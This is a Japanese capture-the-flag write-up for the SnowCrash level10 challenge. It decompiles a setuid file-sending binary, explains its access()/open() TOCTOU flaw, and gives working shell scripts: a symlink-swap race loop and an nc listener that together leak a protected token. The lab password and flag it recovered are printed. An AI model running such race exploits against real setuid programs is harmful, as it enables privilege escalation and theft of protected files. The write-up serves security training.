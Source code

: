 ```sh
ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

### ghidraでdisassする

```c
void main(int ac, char **argv)

{
  char *__cp;
  uint16_t uVar1;
  int iVar2;
  int iVar3;
  ssize_t sVar4;
  size_t __n;
  int *piVar5;
  char *file_name;
  int in_GS_OFFSET;
  undefined local_1024 [4096];
  sockaddr local_24;

  if (ac < 3) {
    printf("%s file host\n\tsends file to host if you have access to it\n",*argv);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  file_name = (char *)argv[1];
  __cp = (char *)argv[2];

  iVar2 = access((char *)argv[1],R_OK);
  if (iVar2 == 0) {
    printf("Connecting to %s:6969 .. ",__cp);
    fflush(stdout);
    iVar2 = socket(2,1,0);
    local_24.sa_data[2] = '\0';
    local_24.sa_data[3] = '\0';
    local_24.sa_data[4] = '\0';
    local_24.sa_data[5] = '\0';
    local_24.sa_data[6] = '\0';
    local_24.sa_data[7] = '\0';
    local_24.sa_data[8] = '\0';
    local_24.sa_data[9] = '\0';
    local_24.sa_data[10] = '\0';
    local_24.sa_data[0xb] = '\0';
    local_24.sa_data[0xc] = '\0';
    local_24.sa_data[0xd] = '\0';
    local_24.sa_family = 2;
    local_24.sa_data[0] = '\0';
    local_24.sa_data[1] = '\0';
    local_24.sa_data._2_4_ = inet_addr(__cp);
    uVar1 = htons(0x1b39);
    local_24.sa_data._0_2_ = uVar1;
    iVar3 = connect(iVar2,&local_24, 0x10);
    if (iVar3 == -1) {
      printf("Unable to connect to host %s\n",__cp);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    sVar4 = write(iVar2,".*( )*.\n",8);
    if (sVar4 == -1) {
      printf("Unable to write banner to host %s\n",__cp);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    printf("Connected!\nSending file .. ");
    fflush(stdout);
    iVar3 = open(file_name,O_RDONLY);
    if (iVar3 == -1) {
      puts("Damn. Unable to open file");
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    __n = read(iVar3,local_1024,0x1000);
    if (__n == 0xffffffff) {
      piVar5 = __errno_location();
      file_name = strerror(*piVar5);
      printf("Unable to read from file: %s\n",file_name);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    write(iVar2,local_1024,__n);
    puts("wrote file!");
  }
  else {
    printf("You don\'t have access to %s\n",file_name);
  }

  return;
}
```

`access((char *)argv[1],R_OK);` は実ユーザーでファイル読み取り権限を確認するため、`level10`ユーザーが`token`を引数に渡すとでエラーになる。
一方、`open(file_name,O_RDONLY);` は実効ユーザーである`flag10` の権限でファイルアクセス権限を確認する。
したがって、`access((char *)argv[1],R_OK);`をうまく突破すれば`token`の中身を確認することができる。

`TOCTOU`というのがある。チェックと使用タイミングのズレがあると問題になる。つまり、`open` と`read` の間に脆弱性がある。
https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use


### ２つのスクリプトを用意する。

１つ目のスクリプトは、実ユーザー権限がある`/tmp/sym_token`を読み込ませて、 `access`関数を突破する。
その後、`read`関数の前までに`/tmp/sym_token` と`token`をシンボリックリンクし、`token`を`write`する。

```sh
echo '#!/bin/bash' > /tmp/script
echo 'while true; do' >> /tmp/script
echo '> /tmp/sym_token' >> /tmp/script
echo './level10 /tmp/sym_token  127.0.0.1 &' >> /tmp/script
echo 'ln -sf /home/user/level10/token /tmp/sym_token' >> /tmp/script
echo 'rm -f /tmp/sym_token' >> /tmp/script
echo 'done' >> /tmp/script

chmod +x /tmp/script
```

受信した文字列をファイルに保存するスクリプト。
```sh
echo '#!/bin/bash' > /tmp/script1
echo '> /tmp/pw' >> /tmp/script1
echo 'while true; do' >> /tmp/script1
echo 'nc -l 6969 >> /tmp/pw' >> /tmp/script1
echo 'done' >> /tmp/script1

chmod +x /tmp/script1
```

タイミングを完璧に制御できないため、試行回数でカバーする必要がある。
```sh
/tmp/script > /dev/null 2>&1 &
/tmp/script1 > /dev/null 2>&1 &

# 少し経ったらプロセスを終了する
pkill -f /tmp/script
pkill -f /tmp/script1
```

### 確認する
```sh
grep -v '\.\*\( \)*' /tmp/pw
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
```

```sh
level10@SnowCrash:~$ su flag10
Password:
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```
